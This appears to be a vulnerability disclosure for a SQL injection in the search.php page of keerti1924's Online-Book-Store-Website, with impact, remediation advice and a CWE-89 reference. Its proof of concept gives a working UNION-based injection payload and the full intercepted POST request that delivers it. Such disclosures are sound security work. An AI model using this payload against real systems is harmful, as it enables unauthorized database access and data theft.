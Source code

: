 # keerti1924 / Online-Book-Store-Website - search.php SQL Injection

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'search.php' script in keerti1924's Online-Book-Store-Website is vulnerable to SQL Injection, allowing attackers to execute arbitrary SQL commands and gain unauthorized access to the underlying database. This could lead to unauthorized data disclosure, data manipulation, and potential data loss, compromising the confidentiality, integrity, and availability of the system and its data.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Navigate to the search feature and perform a search query.\
Step 3: Intercept the POST request and inject the following payload into the 'search' parameter: "a' union select 1,@@version,null,null,null,null #".\
Step 4: Submit the request and observe the database version displayed in the search results, confirming successful SQL Injection.\

## HTTP Request Example
``` http request
POST /search.php HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED]
Content-Length: 97
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

search=a'%20union%20select%201%2c%40%40version%2cnull%2c%20null%2cnull%2cnull%20%23&submit=Submit
```

## Proof with screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/SQL%20Injection%20Search/SQL%20Injection%20in%20search.php%20screenshot.png?raw=true0)

## Remidiation
To mitigate this vulnerability, implement parameterized queries or prepared statements to sanitize user input and prevent SQL Injection attacks. Additionally, perform proper input validation and sanitization on user-supplied data before executing SQL queries. Regular security assessments and code reviews should be conducted to identify and address any potential security vulnerabilities in the application.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)